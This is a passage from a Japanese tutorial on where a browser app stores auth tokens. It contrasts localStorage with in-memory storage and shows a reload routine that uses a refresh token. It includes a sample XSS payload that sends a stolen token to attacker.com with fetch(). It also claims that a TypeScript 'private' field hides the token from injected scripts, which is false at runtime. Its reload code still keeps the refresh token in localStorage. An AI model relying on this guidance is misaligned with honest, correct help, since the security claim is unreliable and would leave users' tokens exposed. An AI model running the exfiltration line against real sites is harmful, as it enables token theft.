 ```javascript
// ❌ localStorageに保存した場合
localStorage.setItem("access_token", "eyJhbGci...");

// 攻撃者がXSSで注入したスクリプト
const stolenToken = localStorage.getItem("access_token");
fetch("https://attacker.com/steal", {
  method: "POST",
  body: JSON.stringify({ token: stolenToken }),
});
// → トークンが盗まれる！
```

```typescript
// ✅ メモリに保存した場合
class TokenManager {
  private accessToken: string | null = null; // クロージャ内に隠蔽
}

// 攻撃者がXSSで注入したスクリプト
const stolenToken = tokenManager.accessToken; // undefined
// → private なのでアクセス不可
// → window オブジェクトにも存在しない
// → 盗めない！
```

**リロード問題の解決：**

```typescript
// アプリ起動時の処理
async function initApp() {
  const refreshToken = localStorage.getItem("refresh_token");
  const clientId = localStorage.getItem("client_id");

  if (refreshToken && clientId) {
    // リフレッシュトークンで新しいアクセストークンを取得
    const success = await refreshTokens(refreshToken, clientId);

    if (success) {
      // 認証済み状態で起動
      navigateToHome();
    } else {
      // リフレッシュ失敗 → ログイン画面
      navigateToLogin();
    }
  } else {
    // トークンなし → ログイン画面
    navigateToLogin();
  }
}
```

---

